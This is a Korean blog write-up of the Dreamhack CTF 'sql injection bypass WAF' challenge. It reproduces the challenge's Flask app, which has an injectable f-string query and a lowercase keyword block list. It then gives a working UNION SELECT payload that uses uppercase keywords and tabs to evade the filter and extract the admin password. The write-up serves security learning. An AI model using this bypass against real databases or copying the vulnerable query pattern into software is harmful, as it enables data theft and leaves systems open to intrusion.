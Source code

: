 ```yaml
---
title: (8) Dreamhack sql injection bypass WAF 문제 풀이
date: 2024-01-12 +09:00
categories:
  - 웹해킹
tags:
  - [웹해킹, 드림핵]
---
```

{% raw %}
## 문제 풀이
사이트에 들어가면 이렇게 생겼습니다.
![](http://kyuyeop.github.io/assets/img/post/8/1.png)
먼저 init.sql입니다.
```sql
# init.sql
CREATE DATABASE IF NOT EXISTS `users`;
GRANT ALL PRIVILEGES ON users.* TO 'dbuser'@'localhost' IDENTIFIED BY 'dbpass';

USE `users`;
CREATE TABLE user(
  idx int auto_increment primary key,
  uid varchar(128) not null,
  upw varchar(128) not null
);

INSERT INTO user(uid, upw) values('abcde', '12345');
INSERT INTO user(uid, upw) values('admin', 'DH{**FLAG**}');
INSERT INTO user(uid, upw) values('guest', 'guest');
INSERT INTO user(uid, upw) values('test', 'test');
INSERT INTO user(uid, upw) values('dream', 'hack');
FLUSH PRIVILEGES;
```
이걸 실행하면 db에 아래와 같은 데이터가 생길겁니다.
{% endraw %}
|idx|uid|upw|
|:---:|:---:|:---:|
|0|abcde|12345|
|1|admin|DH\{...\}|
|2|guest|guest|
|3|test|test|
|4|dream|hack|
{% raw %}
일단 admin을 넣어봅시다.
![](http://kyuyeop.github.io/assets/img/post/8/2.png)
막혔다고 뜹니다. 다른 값은 어떤지 보겠습니다. guest를 넣으면
![](http://kyuyeop.github.io/assets/img/post/8/3.png)
guest가 출력됩니다.  
  
어떤 로직으로 돌아가는지 확인해 보겠습니다.
```python
import os
from flask import Flask, request
from flask_mysqldb import MySQL

app = Flask(__name__)
app.config['MYSQL_HOST'] = os.environ.get('MYSQL_HOST', 'localhost')
app.config['MYSQL_USER'] = os.environ.get('MYSQL_USER', 'user')
app.config['MYSQL_PASSWORD'] = os.environ.get('MYSQL_PASSWORD', 'pass')
app.config['MYSQL_DB'] = os.environ.get('MYSQL_DB', 'users')
mysql = MySQL(app)

template ='''
<pre style="font-size:200%">SELECT * FROM user WHERE uid='{uid}';</pre><hr/>
<pre>{result}</pre><hr/>
<form>
    <input tyupe='text' name='uid' placeholder='uid'>
    <input type='submit' value='submit'>
</form>
'''

keywords = ['union', 'select', 'from', 'and', 'or', 'admin', ' ', '*', '/']
def check_WAF(data):
    for keyword in keywords:
        if keyword in data:
            return True

    return False


@app.route('/', methods=['POST', 'GET'])
def index():
    uid = request.args.get('uid')
    if uid:
        if check_WAF(uid):
            return 'your request has been blocked by WAF.'
        cur = mysql.connection.cursor()
        cur.execute(f"SELECT * FROM user WHERE uid='{uid}';")
        result = cur.fetchone()
        if result:
            return template.format(uid=uid, result=result[1])
        else:
            return template.format(uid=uid, result='')

    else:
        return template


if __name__ == '__main__':
    app.run(host='0.0.0.0')
```
코드를 보면 일부 문자열을 필터링하고 있는데, 전부 소문자만 필터링하는점, 그리고 \\t 즉 탭을 막고 있지 않다는 점이 눈에 띄네요. 스페이스를 필터링하므로 탭을 대신 사용해야 합니다. 참고로 \*이나 /를 막지 않고 있다면 주석 구문인 /\*\*/를 이용하면 스페이스를 대신할 수 있니다.  
  
그럼 바로 공격 구문을 짜 봅시다.
```
' UNION SELECT  null,upw,null FROM  user  LIMIT 1,1#
```
앞쪽 결과는 중요하지 않으니 아무값도 넘겨주지 않고요, union을 이용해서 뒤에 있는 구문만 살렸습니다.  
admin을 막고 있으니 limit 1,1을 이용해 admin을 선택해 주었습니다. 그리고 중요한 점은 모든 공백은 탭 입니다.

여기서 조심할 부분이 또 있는데, 바로 null,upw,null 부분입니다.  
union을 사용할때 앞 sql문의 반환값과 뒤 sql문의 column 수가 같아야 에러가 안납니다.  
저 코드를 uid에 넣고 실행하면
![](http://kyuyeop.github.io/assets/img/post/8/4.png)
flag가 출력됩니다.
{% endraw %}